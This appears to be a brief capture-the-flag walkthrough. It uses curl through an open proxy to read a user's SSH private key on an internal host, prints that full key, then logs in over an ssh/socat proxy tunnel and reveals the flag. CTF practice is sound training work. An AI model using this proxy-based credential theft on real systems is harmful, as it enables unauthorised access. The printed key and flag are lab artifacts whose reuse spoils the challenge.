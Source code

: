 Where do we go from here?

Escalate your privileges and find the flag in root's home directory.

Yes, the error message you see on startup is intentional. ;)



curl --proxy "challenge.ctf.games:30912" "http://permission-to-proxy-435ee5c1b183e84e-85bb87f785-96qzd:50000/home/user/.ssh/id_rsa" 

-----BEGIN OPENSSH PRIVATE KEY-----
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
JauN0ipko/W2sAAAAJa2FsaUBrYWxpAQI=
-----END OPENSSH PRIVATE KEY-----


chmod 400 id_rsa_proxy 

ssh -i id_rsa_proxy -o "ProxyCommand=socat - PROXY:challenge.ctf.games:%h:%p,proxyport=30912" user@permission-to-proxy-435ee5c1b183e84e-85bb87f785-96qzd

flag{c9bbd4888086111e9f632d4861c103f1}